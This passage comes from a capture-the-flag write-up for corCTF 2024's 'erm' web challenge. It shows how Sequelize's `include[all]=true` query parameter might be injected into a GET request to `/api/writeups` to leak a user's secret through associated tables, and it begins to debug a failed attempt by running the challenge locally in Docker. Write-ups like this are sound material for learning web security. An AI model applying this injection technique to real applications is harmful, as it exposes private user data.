 Huh, looks like we can use option `include` to fetch a table (Model) associated with a table?

In this documentation, [it also mentioned that](https://sequelize.org/docs/v6/advanced-association-concepts/eager-loading/#including-everything) we can `include` all associated tables via `all` option:

```javascript
// Fetch all models associated with User
User.findAll({ include: { all: true } });
```

By looking at the table `Writeup`'s relationships, we can **leak member `goroo`'s `secret` by including all the relationships**.

To do so, we could send the following GET request to `/api/writeups`:

```http
GET /api/writeups?include[all]=true HTTP/2
Host: erm.be.ax


```

![](https://github.com/siunam321/CTF-Writeups/blob/main/corCTF-2024/images/Pasted%20image%2020240729210756.png)

Huh? "An error occurred"?

Erm... Let's build this web application's Docker image and run the container:

```shell
┌[siunam♥Mercury]-(~/ctf/corCTF-2024/web/erm/erm)-[2024.07.29|21:08:52(HKT)]
└> docker build --tag erm:latest .     
[...]
┌[siunam♥Mercury]-(~/ctf/corCTF-2024/web/erm/erm)-[2024.07.29|21:08:58(HKT)]
└> docker run -p 80:5000 erm:latest     
web/erm listening on port 5000
seeding db with default data...
```
